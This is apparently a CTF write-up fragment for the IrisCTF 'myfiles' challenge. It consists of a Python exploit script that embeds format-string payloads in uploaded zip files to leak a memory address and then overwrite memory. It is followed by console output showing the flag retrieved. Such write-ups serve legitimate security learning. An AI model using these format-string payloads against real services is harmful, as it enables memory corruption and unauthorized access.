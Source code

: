 ```python
user = b'aaaa'
pw = b'bbbb'
create_user(invite_code, user, pw)

with ZipFile('exp.zip', 'w') as myzip:
    with myzip.open('aa', 'w') as myfile:
        myfile.write(b'|%8$p|@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@')

with open('./exp.zip', 'rb') as f:
    inp = f.read()

upload(0, inp)
view_file(0, pw, 0)
r.recvuntil(b'|')
leak = int(r.recvuntil(b'|', True), 16)
print(f'{leak = :#x}')

with ZipFile('exp.zip', 'w') as myzip:
    with myzip.open('aa', 'w') as myfile:
        myfile.write(b'%c%16$hhnaaaaaaa'+p64(leak+0x10))

with open('./exp.zip', 'rb') as f:
    inp = f.read()
upload(0, inp)
view_file(0, pw, 1)
view_flag(0, pw)

r.interactive()
r.close()
```

```
[+] Opening connection to myfiles.chal.irisc.tf on port 10001: Done
found invitecode: b'yelling-pixel-corals'
leak = 0x561535991040
[*] Switching to interactive mode
Flag: irisctf{tom_needs_to_rethink_his_security}

1. List users
2. List files
3. Create user
4. Upload file
5. View file
6. Get flag
7. Exit
> $  
```
